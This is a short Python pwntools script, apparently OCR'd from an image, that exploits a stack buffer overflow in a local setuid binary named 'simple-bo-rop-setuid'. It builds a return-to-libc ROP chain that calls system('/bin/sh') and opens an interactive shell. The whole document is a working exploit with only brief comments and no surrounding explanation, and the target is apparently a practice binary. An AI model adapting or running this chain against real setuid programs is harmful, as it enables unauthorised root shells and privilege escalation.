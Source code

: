 
### Code with PWNTOOLS:
```python
#!/usr/bin/env python3
from pwn import asm, context, ELF, log, p64, process, sys

target = "./simple-bo-rop-setuid"
if len(sys.argv) !=  2:
  print("Missing LibC base address" )  
  sys.exit( 1)

context.update(arch= "amd64", os="linux")
libc = ELF( "/lib/x86_64-linux-gnu/libc.so.6" )

# if ASLR is off, we know this!
libc.address =  int(sys.argv[ 1], 16)
system_address = libc.symbols.system
log.info(f"LibC base adress: { hex(libc.address)}" )
log.info(f"system() adress: { hex(system_address)}" )

# Stack smashing (str len + caller function's rbp
# i.e., 8 bytes)
payload =  b"A" * 0x10 + b"YADAYADA"

# ROP program:
# system("/bin/sh")
payload += p64( next(libc.search(asm( "pop rdi;pop rbp;ret"))))
payload += p64( next(libc.search( b"/bin/sh" )))
payload += p64( 0)
payload += p64(system_address)

process = process(target)
_ = process.recvline_containsS( "What is your name?" , timeout=3)

print("Injecting malicious input" )
process.sendline(payload)
_ = process.recvline_containsS( "Hello ", timeout= 3)
process.clean()
process.interactive( )
```
